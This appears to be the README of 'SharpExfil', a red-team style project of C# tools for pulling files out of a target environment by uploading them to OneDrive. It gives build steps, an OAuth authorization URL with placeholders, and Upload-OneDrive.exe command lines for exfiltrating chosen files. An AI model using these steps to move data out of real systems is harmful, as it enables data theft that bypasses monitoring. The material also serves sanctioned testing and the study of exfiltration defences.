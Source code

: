 # SharpExfil
C# executables to extract information from target environment using OneDrive API.

## OneDrive API instructions
you can find the steps to create OneDrive keys [here](./OneDrive_API_Key.md)

## Build Instructions

Add your OneDrive API keys to the 'API_Keys.cs' file in project.

Then build project from visual studio

## Running binary

1. Goto the url -  
	`https://login.microsoftonline.com/common/oauth2/v2.0/authorize?client_id=<Client_ID>&scope=<Scopes>&response_type=code&redirect_uri=<Redirect_URI>`  
	Replace Client_id with Application ID of the registered application.  
	Make sure redirect_uri string has the same value from registration.  

2. The new URL should contain the access_token  
	<img src="./img/token.png"/>

3. Run executable with generated code token  
	`
	For Files smaller than 4mb:  
		Upload-OneDrive.exe -size=small -code=<Code_Token> -file=<Path_To_Upload_File>  
	For Files bigger than 4mb:  
		Upload-OneDrive.exe -size=large -code=<Code_Token> -file=<Path_To_Upload_File>`
	<img src="./img/command.png"/>
	Pass all arguments in the same order